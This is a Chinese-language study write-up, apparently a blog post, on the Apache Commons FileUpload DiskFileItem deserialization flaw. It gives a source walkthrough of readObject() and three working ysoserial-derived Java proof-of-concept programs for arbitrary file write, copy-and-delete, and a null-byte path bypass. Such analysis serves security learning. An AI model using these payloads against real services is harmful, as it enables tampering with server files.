




`DiskFileItem` 类中的 `readObject()` 方法在反序列化过程中会执行文件写入操作。这意味着，如果攻击者能够控制一个已序列化的 `DiskFileItem` 对象，并让目标系统对其进行反序列化，就能触发 `readObject()` 方法，从而利用该漏洞。

该漏洞允许攻击者进行文件或目录的任意读写操作。具体能够操作文件还是目录，取决于 **Apache Commons FileUpload** 和 **JDK** 的版本。

* `commons-fileupload < 1.3.1` & `JDK <= 7` 
  * 任意目录可写
  * 任意文件名
  * 任意文件内容写入
* `commons-fileupload < 1.3.1` & `JDK > 7`  
  * 只能写入系统中存在的目录
  * 任意文件名(需 `\u0000` 绕过)
  * 任意文件内容写入
* `commons-fileupload > 1.3.1` 
  * 只能写入系统中存在的目录
  * 任意文件内容写入

我这里会总结ysoserial在fileupload攻击链中的多种payload生成的poc，为了方便理解，我把这些代码都拆开成可以独立运行的代码。

## 攻击链分析

其实这都没有攻击链，就是`DiskFileItem`这一个类导致的反序列化。

这里以`commons-fileupload:1.3.1`版本来进行分析，同时会对比不同版本下的区别。

### DiskFileItem

`DiskFileItem` 是 `org.apache.commons.fileupload.FileItem` 的一个实现类，主要用于处理 **multipart/form-data** 类型的 HTTP 请求中包含的文件或表单项。在文件上传时，它负责将接收到的数据封装并处理，尤其是在文件大小超出内存阈值时，能够将数据写入磁盘。

让我来标识一下这个类中的字段，并总结一下攻击链中的重要字段。

**字段/属性**

```java
public class DiskFileItem
    implements FileItem {
    
    // 默认内容字符集，当发送方未明确提供字符集参数时使用。
    // 适用于 text 类型的媒体子类型，默认值是 ISO-8859-1，这是 HTTP 中常用的默认字符集。
    public static final String DEFAULT_CHARSET = "ISO-8859-1";
    
    // ----------------------------------------------------------- 数据字段

    // 用于生成唯一文件名的标识符。
    // 基于 UUID.randomUUID() 生成一个随机的唯一字符串，并将其中的短横线 (-) 替换为下划线 (_)。
    private static final String UID =
            UUID.randomUUID().toString().replace('-', '_');

    // 用于生成唯一标识符的计数器。使用 AtomicInteger 确保线程安全，每次调用时自增。
    private static final AtomicInteger COUNTER = new AtomicInteger(0);
    
    // ----------------------------------------------------------- 实例字段

    // 表单字段的名称，由浏览器提供。指的是 HTML 表单中 <input> 标签的 name 属性值。
    private String fieldName;
    // 浏览器传递的内容类型（例如 text/plain 或 application/json）。如果未定义内容类型，则该值为 null。
    private final String contentType;
    // 指定该项是否为简单的表单字段。true 表示这是一个普通的表单字段，而不是文件字段。
    private boolean isFormField;
    // 用户文件系统中的原始文件名
    private final String fileName;
    // 文件项的大小（以字节为单位），用于缓存文件项的大小信息，尤其是在文件从其原始位置移动后。
    private long size = -1;
    // 文件大小的阈值（以字节为单位），超过该值的文件会被存储到磁盘，而较小的文件会保存在内存中。
    private final int sizeThreshold;
    // 文件在磁盘上的存储目录，如果文件大小超过阈值，则会将文件写入该目录。
    private final File repository;
    // 缓存的文件内容。以字节数组的形式存储，用于快速访问文件内容，而无需重新读取文件。
    private byte[] cachedContent;
    // 与dfosFile相关的输出流对象。DeferredFileOutputStream 是一个延迟的文件输出流，控制文件内容是保存在内存中还是写入磁盘。
    private transient DeferredFileOutputStream dfos;
    // 用于存储临时文件的 File 对象。表示当前文件上传过程中用到的中间临时文件。
    private transient File tempFile;
    // dfosFile 是与 DeferredFileOutputStream 配套使用的对象，主要作用是：
    // 在文件内容需要序列化时，指定存储的位置。
    // 序列化的文件内容可以写入到该 File 对象中，以支持反序列化或跨 JVM 的迁移。
    private File dfosFile;
	// 文件项的 HTTP 请求头信息。
    // 包括了与文件项相关的元信息，例如 Content-Disposition 和 Content-Type。
    private FileItemHeaders headers;
}
```

然后我们挑出来重点的字段说明一下

* `repository`：文件类型的成员变量，表示文件保存的磁盘位置。
* `sizeThreshold`：文件大小阈值，决定文件是存储在内存中还是磁盘上。
* `fileName`：上传文件的原始文件名。
* `dfos`：`DeferredFileOutputStream` 对象，用于写入数据流。
* `dfosFile`：`File` 对象，表示文件在磁盘上的实际存储位置，并允许序列化操作。

然后看一下readObject中的代码吧：

请注意，这是以`commons-fileupload:1.3.1`为基础进行的代码分析。

```java
private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
    // read values
    // 通过默认readObject方法恢复所有字段中的值
    in.defaultReadObject();

    // 序列化的一个预期用途是将包含 DiskFileItem 的 HTTP 会话在不同的 JVM 之间迁移。尤其是当 JVM 位于不同的机器上时，存储库位置可能无效，因此需要对其进行验证。
    // 如果repository(File)中的值不是空的
    if (repository != null) {
        // 如果repository(File)是一个文件夹
        if (repository.isDirectory()) {
            // Check path for nulls
            // 如果repository(File)中的path是以\0结尾的,则抛出IOException异常
            if (repository.getPath().contains("\0")) {
                throw new IOException(format(
                        "The repository [%s] contains a null character",
                        repository.getPath()));
            }
        } else {
            // 如果repository(File)不是一个文件夹，则抛出异常
            throw new IOException(format(
                    "The repository [%s] is not a directory",
                    repository.getAbsolutePath()));
        }
    }
	// 获取文件输出流(DeferredFileOutputStream)
    OutputStream output = getOutputStream();
    // 如果cachedContent(byte[]) 中的数据不是空的，调用write方法
    // 将byte[]中的数据写入到指定目录中(outputFile)
    if (cachedContent != null) {
        output.write(cachedContent);
    } else {
        // 如果cachedContent(byte[]) 中的数据是空的
        FileInputStream input = new FileInputStream(dfosFile);
        // 将input输入流中的内容，写入到output输出流中
        IOUtils.copy(input, output);
        // 写入完成后，删除dfosFile文件
        dfosFile.delete();
        dfosFile = null;
    }
    output.close();
    cachedContent = null;
}
// 获取输出流(DeferredFileOutputStream)
public OutputStream getOutputStream()
    throws IOException {
    // 返回dfos,这个没什么好说的
    if (dfos == null) {
        File outputFile = getTempFile();
        dfos = new DeferredFileOutputStream(sizeThreshold, outputFile);
    }
    return dfos;
}
```

在 `commons-fileupload < 1.3.1`中的版本中是这样写的，代码如下：

```java
private void readObject(ObjectInputStream in)
        throws IOException, ClassNotFoundException {
    in.defaultReadObject();
    // 这里的逻辑就比较简单可以直接写入文件，而没有文件类型和\u0000截断的判断
    OutputStream output = getOutputStream();
    if (cachedContent != null) {
        output.write(cachedContent);
    } else {
        FileInputStream input = new FileInputStream(dfosFile);
        IOUtils.copy(input, output);
        dfosFile.delete();
        dfosFile = null;
    }
    output.close();

    cachedContent = null;
}
```

所以当我们能构造一个类似这样的内容时：

1. sizeThreshold == 0	表示所有的文件都不存储到内存中，而是存储到磁盘中
2. repository== /path/store/file	要存储的文件路径
3. cachedContent == byte[]	要写入的文件内容的字节数组
4. threshold == 0			DeferredFileOutputStream中的sizeThreshold，因为我们是非正常手段
5. isFormField == false		表示这不是一个Http中的form字段

当我们能构造这些值时，就能使得readObject方法触发时导致文件写入。

## POC

在ysoserial中总共给了5种payload的示例，分别是：

```
 * Arguments:
 * - copyAndDelete;sourceFile;destDir
 * - write;destDir;ascii-data
 * - writeB64;destDir;base64-data
 * - writeOld;destFile;ascii-data
 * - writeOldB64;destFile;base64-data
```

这对应着ysoserial中的这段代码：



这里只提供`copyAndDelete`、`write`、`writeOld`三种payload，毕竟哪两种base64只是对byte[]字节数组进行了Base64解码处理而已。

### poc1 - 复制&删除

必要环境：`commons-fileupload < 1.3.1`，我这里以`1.3`为例

```xml
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.6</version>
</dependency>
<dependency>
    <groupId>commons-fileupload</groupId>
    <artifactId>commons-fileupload</artifactId>
    <version>1.3</version>
</dependency>
```

POC如下，这是基于ysoserial改出来的poc：

```java
import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import org.apache.commons.io.output.ThresholdingOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Paths;

public class FileUpload1 {
    private static final String serialFileName = "fileupload2.ser";

    public static void main(String[] args) throws Exception {
        // copyTo指的是目标目录
        String copyTo = Paths.get("C:\\Users", "15137", "Desktop", "hello1").toUri().getPath();
        // 源文件
        String copyAndDelete = Paths.get("C:\\Users", "15137", "Desktop", "hello2", "hello.txt").toUri().getPath();
        int thresh = 0;
        byte[] data = new byte[1];
        // if thresh < written length, delete outputFile after copying to repository temp file
        // otherwise write the contents to repository temp file
        File repository = new File(copyTo);
        // 这里其实不需要设置"test"、"application/octet-stream"也是可以的，都设置为null即可
        // 这里的sizeThreshold在后边会通过反射修改成0的，我也不知道为什么ysoserial要这么写
        DiskFileItem diskFileItem = new DiskFileItem("test", "application/octet-stream", false, "test", 100000, repository);
        File outputFile = new File(copyAndDelete);
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(thresh, outputFile);
        // 这个操作其实也没啥用
        Field mos = dfos.getClass().getDeclaredField("memoryOutputStream");
        mos.setAccessible(true);
        OutputStream os = (OutputStream)mos.get(dfos);
        os.write(data);
		// 设置要写入数据的长度
        Field writtenField = ThresholdingOutputStream.class.getDeclaredField("written");
        writtenField.setAccessible(true);
        writtenField.set(dfos, data.length);
		// 通过反射初始化DeferredFileOutputStream流
        Field dfosField = diskFileItem.getClass().getDeclaredField("dfos");
        dfosField.setAccessible(true);
        dfosField.set(diskFileItem, dfos);
		// 设置sizeThreshold的值，和前边我们说的一样，设置成0即可
        Field sizeThresholdField = diskFileItem.getClass().getDeclaredField("sizeThreshold");
        sizeThresholdField.setAccessible(true);
        sizeThresholdField.set(diskFileItem, 0);
		// 序列化 & 反序列化验证
        serialize(diskFileItem);
        verify();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

尝试从hello2文件夹写入到hello1文件夹中



运行poc，结果如下：



可以看到文件名是随机的，其中ysoserial是这么说的：

```java
/* Yields:
 * - copy an arbitraty file to an arbitrary directory (source file is deleted if possible)
 * - pre 1.3.1 (+ old JRE): write data to an arbitrary file
 * - 1.3.1+: write data to a more or less random file in an arbitrary directory
 *
 ------------大致意思如下
 * 将任意文件复制到任意目录（如果可能，源文件会被删除）。
 * FileUpload 1.3.1 之前版本（+ 老旧的 JRE）： 将数据写入任意文件。
 * FileUpload 1.3.1 及之后版本： 将数据写入任意目录中的一个基本随机的文件。
 */
```

可能是我用的版本还是不太对，导致了文件名是随机的，这个回头再研究吧，不过核心逻辑我们已经清楚了。

### poc2-写入

必要环境：`commons-fileupload < 1.3.2`，我这里以`1.3.1`为例

```xml
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.6</version>
</dependency>
<dependency>
    <groupId>commons-fileupload</groupId>
    <artifactId>commons-fileupload</artifactId>
    <version>1.3.1</version>
</dependency>
```

和poc1中不同的地方我已经标注出来了，其实只有参数的不同。

下边的poc的效果是往 `"C:\\Users\15137\Desktop\hello1`这个目录中写入一个文件，文件内容为：`Which out!!!`

```java
package fileupload1;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import org.apache.commons.io.output.ThresholdingOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Paths;

public class FileUpload2 {
    private static final String serialFileName = "fileupload2.ser";
    public static void main(String[] args) throws Exception {
        byte[] data = "Which out!!!".getBytes("US-ASCII");
        int thresh = data.length + 1;
        // 最终的文件输出目录
        String repoPath = Paths.get("C:\\Users", "15137", "Desktop", "hello1").toUri().getPath();
        // 对应outputFile，该路径是没有用的，后边会被repoPath覆盖
        // ysoserial中的作者已经提示我们这是个whatever，无须关心的路径
        String filePath = Paths.get("C:\\Users", "15137", "Desktop", "hello1", "whatever").toUri().getPath();

        // if thresh < written length, delete outputFile after copying to repository temp file
        // otherwise write the contents to repository temp file
        File repository = new File(repoPath);
        DiskFileItem diskFileItem = new DiskFileItem("test", "application/octet-stream", false, "test", 100000, repository);
        File outputFile = new File(filePath);
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(thresh, outputFile);
        Field mos = dfos.getClass().getDeclaredField("memoryOutputStream");
        mos.setAccessible(true);
        OutputStream os = (OutputStream)mos.get(dfos);
        os.write(data);

        Field writtenField = ThresholdingOutputStream.class.getDeclaredField("written");
        writtenField.setAccessible(true);
        writtenField.set(dfos, data.length);

        Field dfosField = diskFileItem.getClass().getDeclaredField("dfos");
        dfosField.setAccessible(true);
        dfosField.set(diskFileItem, dfos);


        Field sizeThresholdField = diskFileItem.getClass().getDeclaredField("sizeThreshold");
        sizeThresholdField.setAccessible(true);
        sizeThresholdField.set(diskFileItem, 0);

        serialize(diskFileItem);
        verify();
    }
    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

效果如下：



### poc3-写入任意文件

必要环境：`commons-fileupload < 1.3`，我这里以`1.2.2`为例，但实际上我也没有达到任意文件写入效果.......不知道这个是什么情况，还是只能任意路径写。

我尝试了JDK8u421、JDK8u66、JDK7u21多个版本，以及`commons-fileupload=1.2.2 - commons-fileupload=1.3.1`，发现还是没办法任意写入，嗯~回头再研究吧，我觉得能理解到这里已经可以了。接着学习才是最重要的

```xml
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.6</version>
</dependency>
<dependency>
    <groupId>commons-fileupload</groupId>
    <artifactId>commons-fileupload</artifactId>
    <version>1.2.2</version>
</dependency>
```

poc3只是在poc2的基础上加了一个`\u0000`不可显字符绕过而已，注意，`\0和\u0000 是一个东西`。

```java
package fileupload1;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import org.apache.commons.io.output.ThresholdingOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Paths;

public class FileUpload3 {
    private static final String serialFileName = "fileupload3.ser";
    public static void main(String[] args) throws Exception {
        byte[] data = "Which out!!!".getBytes("US-ASCII");
        int thresh = data.length + 1;
        String repoPath = Paths.get("C:\\Users", "15137", "Desktop", "hello3").toUri().getPath();
        String filePath = Paths.get("C:\\Users", "15137", "Desktop", "hello1", "123.txt").toUri().getPath();
        // 和poc2的差别只有这个
        repoPath += "\0";
        File repository = new File(repoPath);
        DiskFileItem diskFileItem = new DiskFileItem("test", "application/octet-stream", false, "test", 100000, repository);
        File outputFile = new File(filePath);
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(thresh, outputFile);
        Field mos = dfos.getClass().getDeclaredField("memoryOutputStream");
        mos.setAccessible(true);
        OutputStream os = (OutputStream)mos.get(dfos);
        os.write(data);

        Field writtenField = ThresholdingOutputStream.class.getDeclaredField("written");
        writtenField.setAccessible(true);
        writtenField.set(dfos, data.length);

        Field dfosField = diskFileItem.getClass().getDeclaredField("dfos");
        dfosField.setAccessible(true);
        dfosField.set(diskFileItem, dfos);


        Field sizeThresholdField = diskFileItem.getClass().getDeclaredField("sizeThreshold");
        sizeThresholdField.setAccessible(true);
        sizeThresholdField.set(diskFileItem, 0);

        serialize(diskFileItem);
        verify();
    }
    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

## 攻击链

真的太简单了，比URLDNS还简单。

```
DiskFileItem.readObject()
	DiskFileItem.getOutputStream()	--DeferredFileOutputStream
		DeferredFileOutputStream.write(cachedContent);
```
